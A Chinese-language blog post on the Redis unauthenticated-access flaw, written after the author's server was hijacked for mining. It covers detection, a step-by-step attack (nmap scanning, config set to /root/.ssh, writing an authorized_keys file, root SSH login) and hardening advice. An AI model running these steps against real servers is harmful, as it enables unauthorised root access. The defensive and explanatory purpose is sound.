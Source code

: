 # Redis 安全漏洞检测攻击机防御
---

这两天，部署在阿里云上的测试用服务器由于没有配置防火墙，被人通过 Redis 安全漏洞入侵，拉去挖矿。于是对近期爆出的 Redis 安全漏洞进行研究了研究。

## Redis 安全漏洞

使用 redis-cli 接入你的 Redis 服务器，使用命令

	config get *

如果发现以下两个配置被修改成了如下值，恭喜你，你已经被入侵了

	127.0.0.1:6379> config get *
	  1) "dbfilename"
	  2) "authorized_keys"
	103) "dir"
	104) "/root/.ssh"

<p>当然，对于高明的黑客，在入侵成功之后，会将这个痕迹抹除，因此一般需要检查的是 /root/.ssh 目录下面是否有一个 authorized_keys 文件，并且文件内容不是用户自己的内容，可以确认被入侵。</p>
<p>目前一般的入侵为通过 Redis 的安全漏洞，将本机的 ssh 公钥写入到目标机器 /root/.ssh/authorized_keys 文件中，这样，通过本机就可以实现免密码登入目标机器。当然利用这个漏洞，还可以在目标机器上创建文件，并写入其它内容，自己可以去想象</p>
<p>被攻击机器的条件：</p>
- 目标机器 Redis 服务可以被公网检测
- 公网接入后可以不使用密码直接输入命令(一般很多用户默认安装是不设置密码的)或使用弱密码进行保护
- Redis 服务使用 root 账户进行启动
- 接入后可以使用 config set 命令修改 Redis 配置

**如果发现被攻击，尽快对 /root/.ssh/authorized_keys 进行清理**

下面，我们就从攻击者的角度来看一下如何检测并攻击该漏洞

## Redis 安全漏洞检测及攻击

- 在本机上执行

		ssh-keygen -t rsa

	在本机的 /root/.ssh 下回生成两个文件 id_rsa 和 id_rsa.pub。id_rsa 是生成的 ssh 密钥，id_rsa.pub 是生成的 ssh 公钥，记住公钥中的内容

- 使用 nmap 对指定网段指定端口进行扫描：

		nmap -sS xxx.xxx.xxx.0/24 -p6379 --open

	使用 nmap 的半连接扫描方式对指定网段的 6379 端口进行扫描，并返回该端口打开的服务器

	![](./images/redis.png)

- 使用 redis 客户端 redis-cli 连接扫描到的服务器，如果没有安装 redis-cli，也可以直接使用 telnet 方式

		redis-cli -h xxx.xxx.xxx.xxx

- 在 redis 客户端中执行命令

		ping

	如果返回 PONG，表示这个服务器的 Redis 没有设置密码

- 在 redis 客户端中执行命令

		config set dir /root/.ssh

	将 Redis 的 data 目录指定到 /root/.ssh 下，如果这步执行成功，表示目标服务器的 Redis 使用 root 启动，并且没有禁用 config set，该服务器可以被攻陷

- 在 redis 客户端中执行命令

		config set dbfilename authorized_keys

	将 Redis 的数据文件指定为 authorized_keys

- 在 redis 客户端中执行命令

		set xxxx "\n\n\nid_rsa.pub content\n\n\n"

	id\_rsa.pub 为第一部中生成的 id\_rsa.pub 中的内容

- 在 redis 客户端中执行命令

		save

	将内存中的内容写入到文件中

- 退出 redis 客户端，直接使用 ssh 就可以免密码使用 root 登录目标机器了

## Redis 安全漏洞防御

对该漏洞的防御一般从以下几个角度进行考虑：

- 目标机器 Redis 服务可以被公网检测

	一般建议方案是将 redis 启动在 127.0.0.1 上，在配置文件找到 bind，做如下配置

		bind 127.0.0.1

	但是这种方式不能跨服务器访问，一般方式是将 Redis 放到内网，防止公网检测。如果服务部署在公有云上，需要对 Redis 服务器设置防火墙，以下是我防火墙的设置

		iptables -A INPUT -p tcp -m tcp --dport 8080 -j ACCEPT
		iptables -A INPUT -s xxx.xxx.xxx.xxx/32 -p icmp -j ACCEPT
		iptables -A INPUT -p icmp -j DROP
		iptables -A INPUT -p tcp -m tcp --dport 22 -j ACCEPT
		iptables -A INPUT -m state --state RELATED,ESTABLISHED -j ACCEPT
		iptables -A INPUT -i lo -j ACCEPT
		iptables -A INPUT -j REJECT --reject-with icmp-host-prohibited
		iptables -A FORWARD -j REJECT --reject-with icmp-host-prohibited

	打开授信客户端的访问

		iptables -I INPUT -s xxx.xxx.xxx.xxx/32 -p tcp --dport 6379 -j ACCEPT

- 公网接入后可以不使用密码直接输入命令(一般很多用户默认安装是不设置密码的)或使用弱密码进行保护

	给 Redis 设置密码，在配置文件中找到 requirepass

		requirepass XXXXXX

	设置后，登录需要加 -a 参数

		redis-cli -a XXXXXX

	XXXXXX 为用户在配置文件中添加的密码

- Redis 服务使用 root 账户进行启动

	使用其它账户启动 Redis 服务

- 接入后可以使用 config set 命令修改 Redis 配置

	关闭某些命令，如关闭 config 命令，在配置文件中添加下面一行，重新启动

		rename-command CONFIG ""

	再次接入后就会发现 config 命令找不到了